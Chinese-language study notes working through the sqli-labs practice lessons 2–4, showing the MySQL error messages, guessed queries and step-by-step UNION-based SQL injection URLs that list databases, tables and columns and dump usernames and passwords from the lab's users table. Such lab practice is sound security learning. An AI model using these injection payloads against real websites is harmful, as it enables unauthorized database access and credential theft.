# Lab2 -- GET Error based integer

+ 输入?id=1'报错 -- 存在SQL注入

```
报错
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1
```

+ 猜测语句

```
有效判断语句为
' LIMIT 0,1
猜测
select * from table where id = id LIMIT 0,1
```

1. 先判断哪些选择可以被显示到网页上 -- 选择的第二个和第三个选项
2. 返回当前用户，数据库及其版本 -- 这里使用security数据库
3. 获取当前数据库中所有数据库
4. 获取当前数据库中的所有表 -- 获得emails，referers，uagents和users
5. 猜测账户密码在users中，获取users表中的所有columns -- 获得id，username和password三个字段
6. 获取账户和密码字段

命令总和（命令在hackbar中执行）

```mysql
http://127.0.0.1/sqli-labs-master/Less-2/?id=0 union select 1,2,3 --+

http://127.0.0.1/sqli-labs-master/Less-2/?id=0 union select 1,2,concat_ws(char(32,58,32),user(),database(),version()) --+

http://127.0.0.1/sqli-labs-master/Less-2/?id=0 union select 1,2,group_concat(schema_name) from information_schema.schemata --+

http://127.0.0.1/sqli-labs-master/Less-2/?id=0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+

http://127.0.0.1/sqli-labs-master/Less-2/?id=0 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+

http://127.0.0.1/sqli-labs-master/Less-2/?id=0 union select 1,2,group_concat(concat_ws(char(32,58,32),id,username,password)) from security.users
```



# Lab3 -- GET Error based single quotes with twist

+ 输入?id=1'报错 -- 存在SQL注入

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1
```

+ 猜测语句

```
有效语句
'1'') LIMIT 0,1
猜测
select * from table where id=('') LIMIT 0,1
```

+ 流程与Lab1和Lab2相同
+ 命令总和（还是用hackbar好了，下载旧版本，链接在此https://github.com/Mr-xn/hackbar2.1.3）

```mysql
http://localhost/sqli-labs-master/Less-3/?id=-1') union select 1,2,3 --+

http://localhost/sqli-labs-master/Less-3/?id=-1') union select 1,2,concat_ws(char(32,58,32),user(),database(),version()) --+

http://localhost/sqli-labs-master/Less-3/?id=-1') union select 1,2,group_concat(schema_name) from information_schema.schemata --+

http://localhost/sqli-labs-master/Less-3/?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+

http://127.0.0.1/sqli-labs-master/Less-2/?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+

http://127.0.0.1/sqli-labs-master/Less-3/?id=-1') union select 1,2,group_concat(concat_ws(char(32,58,32),id,username,password)) from security.users --+
```



# Lab4 -- GET Error based Double Quotes

+ 输入?id=1'不报错了，咦？
+ 输入?id=1"报错，观察观察

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1
```

+ 猜测语句

```
有效语句
"1"") LIMIT 0,1
猜测
select * from table where id=("id")
```

+ 所以现在用`id=-1")`代替上面的Lab3的`id=-1`就可以啦，其他流程都一样

